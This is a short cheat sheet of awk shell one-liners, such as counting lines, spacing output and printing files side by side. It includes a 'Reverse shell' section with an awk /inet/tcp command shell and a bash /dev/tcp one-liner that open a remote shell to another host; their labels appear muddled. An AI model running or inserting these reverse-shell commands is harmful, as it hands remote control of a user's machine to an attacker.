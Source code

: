 ```sh
```
### Print total lines (same as wc -l)
```sh
awk 'END{print NR}'
```
### Triple space all lines
```sh
awk '1;{print "\n"}'
```
### Setup 2 files side by side
```sh
paste file1.txt file2.txt|awk -F'\t' '{ printf("%-30s %s\n", $1, $2) }'
```

### Reverse shell 

* Listen Server

```sh
awk 'BEGIN{s="/inet/tcp/0/192.168.1.104/1337";while(1){if((s|&getline c)<0||c=="exit")break;while(c&&(c|&getline)>0)print$0|&s;close(c)}}'

```
* Connect to reverse shell above

```sh
bash -c '0<&60-;exec 60<>/dev/tcp/<LHOST>/<LPORT>;sh <&60 >&60 2>&60' 2> /dev/null
```

### Print side by side

```sh
awk -F'\t' '{ printf("%-30s %s\n", $1, $2) }'
```
### Unknown
```sh
awk -v on="$(tput bold)" -v off="$(tput rmso)" '{ $2=on $2 off }; 1'
```

### Add a blank line after every 5th line

```sh
seq 10|awk '{ print; } NR % 5 == 0 { print ""; }'
1
2
3
4
5

6
7
8
9
10
```
